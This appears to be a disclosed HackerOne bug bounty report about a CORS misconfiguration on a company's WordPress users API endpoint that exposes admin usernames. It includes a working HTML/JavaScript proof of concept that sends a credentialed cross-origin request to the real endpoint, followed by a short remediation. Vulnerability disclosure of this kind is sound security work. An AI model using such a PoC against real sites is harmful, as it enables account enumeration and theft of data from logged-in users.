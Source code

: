 # Unsafe cors sharing of admin users 

## Report Details
- **Report ID**: 772744
- **URL**: https://hackerone.com/reports/772744
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-12T16:31:07.186Z
- **Disclosed**: 2020-04-30T23:28:54.397Z

## Reporter
- **Username**: pwrspl0it
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
hello,


the following endpoint https://lonestarcell.com/wp-json/wp/v2/users/ has an unsafe sharing of sensitive information of admin usernames

check poc script below :

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://lonestarcell.com/wp-json/wp/v2/users/", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```
If another domain is allowed by the policy, then that domain can potentially attack users of the application. If a user is logged in to the application, and visits a domain allowed by the policy, then any malicious content running on that domain can potentially retrieve content from the application, and sometimes carry out actions within the security context of the logged in user.
Even if an allowed domain is not overtly malicious in itself, security vulnerabilities within that domain could potentially be leveraged by an attacker to exploit the trust relationship and attack the application that allows access. CORS policies on pages containing sensitive information should be reviewed to determine whether it is appropriate for the application to trust both the intentions and security posture of any domains granted access.
Remediation
=====================
###Rest API should be visible just for logged admins .


best regards,

## Impact

References
=====================

###https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties

## Attachments
No attachments
